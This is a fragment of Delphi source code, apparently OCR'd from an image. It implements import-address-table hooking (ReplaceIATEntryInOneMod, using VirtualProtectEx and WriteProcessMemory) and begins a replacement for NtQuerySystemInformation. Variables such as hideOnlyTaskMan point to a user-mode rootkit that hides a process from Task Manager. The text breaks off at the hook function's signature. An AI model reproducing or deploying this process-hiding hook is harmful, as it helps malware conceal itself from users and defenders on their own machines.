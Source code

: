      SystemCreateSession,
     SystemDeleteSession,
     SystemInvalidInfoClass4,
     SystemRangeStartInformation,
     SystemVerifierInformation,
     SystemAddVerifier,
     SystemSessionProcessesInformation
    );
    _IMAGE_IMPORT_DESCRIPTOR = packed record
      case Integer of
       0:(
        Characteristics: DWORD);
       1:(
        OriginalFirstThunk:DWORD;
        TimeDateStamp:DWORD;
        ForwarderChain: DWORD;
        Name: DWORD;
        FirstThunk: DWORD);
       end;
    IMAGE_IMPORT_DESCRIPTOR=_IMAGE_IMPORT_DESCRIPTOR;
    PIMAGE_IMPORT_DESCRIPTOR=^IMAGE_IMPORT_DESCRIPTOR;
    PFARPROC=^FARPROC;
    procedure ReplaceIATEntryInOneMod(pszCallerModName: Pchar; pfnCurrent: FarProc; pfnNew: FARPROC; hmodCaller: hModule);
    var     ulSize: ULONG;
       pImportDesc: PIMAGE_IMPORT_DESCRIPTOR;
        pszModName: PChar;
            pThunk: PDWORD; ppfn:PFARPROC;
            ffound: LongBool;
           written: DWORD;
    begin
     pImportDesc:= ImageDirectoryEntryToData(Pointer(hmodCaller), TRUE,IMAGE_DIRECTORY_ENTRY_IMPORT, ulSize);
      if pImportDesc = nil then exit;
      while pImportDesc.Name<>0 do
       begin
        pszModName := PChar(hmodCaller + pImportDesc.Name);
         if (lstrcmpiA(pszModName, pszCallerModName) = 0) then break;
        Inc(pImportDesc);
       end;
      if (pImportDesc.Name = 0) then exit;
     pThunk := PDWORD(hmodCaller + pImportDesc.FirstThunk);
      while pThunk^<>0 do
       begin
        ppfn := PFARPROC(pThunk);
        fFound := (ppfn^ = pfnCurrent);
         if (fFound) then
          begin
           VirtualProtectEx(GetCurrentProcess,ppfn,4,PAGE_EXECUTE_READWRITE,written);
           WriteProcessMemory(GetCurrentProcess, ppfn, @pfnNew, sizeof(pfnNew), Written);
           exit;
          end;
        Inc(pThunk);
       end;
    end;
    var
     addr_NtQuerySystemInformation: Pointer;
     mypid: DWORD;
     fname: PCHAR;
     mapaddr: PDWORD;
     hideOnlyTaskMan: PBOOL;
    function myNtQuerySystemInfo(SystemInformationClass: SYSTEM_INFORMATION_CLASS; SystemInformation: Pointer;
     SystemInformationLength:ULONG; ReturnLength:PULONG):LongInt; stdcall;